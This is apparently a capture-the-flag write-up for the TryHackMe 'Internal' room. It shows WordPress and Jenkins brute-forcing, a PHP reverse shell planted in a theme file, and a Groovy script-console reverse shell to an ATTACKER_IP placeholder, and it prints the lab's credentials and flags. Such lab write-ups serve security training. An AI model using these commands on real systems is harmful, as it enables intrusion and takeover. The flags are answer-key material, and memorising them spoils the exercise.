**Objectives**:
1. User.txt Flag
2. Root.txt Flag

**Room:** https://tryhackme.com/room/internal
**Target IP:** `10.48.157.111`

---
## Walkthrough


An initial Nmap scan was performed against the target to identify open ports, running services, and the operating system:

```
nmap -sC -sV -Pn -O 10.48.157.111 -oN Internal
```


The scan revealed two open ports: **port 22 (SSH)** and **port 80 (HTTP)**. Here, port 80 pointed to a web application worth investigating first.




Browsing to `http://10.48.157.111` returned the default Apache2 landing page. Reviewing the page source for hardcoded credentials or comments did not yield any useful information, so directory brute-forcing was the next logical step.




Using `ffuf` with a medium-sized wordlist, hidden directories were enumerated:
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.48.157.111/FUZZ 
```




This uncovered a `/blog/` directory, which hosted a completely different interface from the default Apache page.




Navigating to `http://10.48.157.111/blog/` revealed a WordPress-style site. Further inspection led to the discovery of the login page at `http://internal.thm/blog/wp-login.php`.




Testing some default and commonly used credentials against the login page confirmed that the username `admin` was valid.




To obtain the password, WPScan was used to brute-force the admin account via the XML-RPC interface:
```
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/blog/
```


After waiting some minutes, this attack successfully returned a valid password for the `admin` account.




Logging in with the recovered credentials granted us this interface. Let's just click on "Remind me later" and we're in!




So, we are inside the wordpress dashboard. From here, click on "Appearance" on the side panel and select "Theme Editor". This page will let us edit the PHP source code directly.




An inactive theme can be selected to avoid corrupting the primary theme. An alternate theme such as `Twenty Seventeen` can be chosen instead.




A PHP reverse shell payload, sourced from [pentestmonkey's php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), was inserted into the theme's `404.php` file.




After saving the file, a netcat listener was started on the attack machine, and the payload was triggered by browsing to:
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```


This returned a reverse shell connection, confirming the foothold on the target.




Navigating to the home directory revealed a user folder, but the current shell's privileges were insufficient to access its contents directly.




After roughly thirty minutes of manual enumeration, a search for text files across the filesystem surfaced an interesting result:
```
find / -type f -name "*.txt" 2>/dev/null
```




Reading the discovered file revealed the credentials `aubreanna: bubb13guM!@#123`




Switching to the `aubreanna` account with these credentials granted access to the user flag `THM{int3rna1_fl4g_1}`




Continued enumeration under this user uncovered a file named `jenkins.txt`, which referenced a hidden service running internally on **port 8080**.




Since the Jenkins service was not directly reachable, an SSH local port forward was established to tunnel traffic from the attack machine to the target's internal service:
```
ssh -L 1234:localhost:8080 aubreanna@10.48.157.111
```


With the tunnel in place, we can access the Jenkins web interface locally at `http://127.0.0.1:1234`.




The Jenkins login form was then brute-forced using Hydra to recover valid administrator credentials:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 1234 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password'
```


This attack returned the valid credentials `admin:spongebob`, which were used to log in successfully.




With administrative access to Jenkins confirmed, the built-in **Script Console** (`http://127.0.0.1:1234/script`) was accessible. Using this script console, we can run arbitrary commands, functioning similarly to a web shell. Here, we can gain a reverse shell using the command below:
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKER_IP>/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```




Click on run and we got a reverse shell connection on our netcat listener. Navigating to the `/opt` directory revealed a `note.txt` file containing the root credentials `root:tr0ub13guM!@#123`.




Logging in as root over SSH using these credentials confirmed full compromise of the machine and provided access to the root flag `THM{d0ck3r_d3str0y3r}`.



---
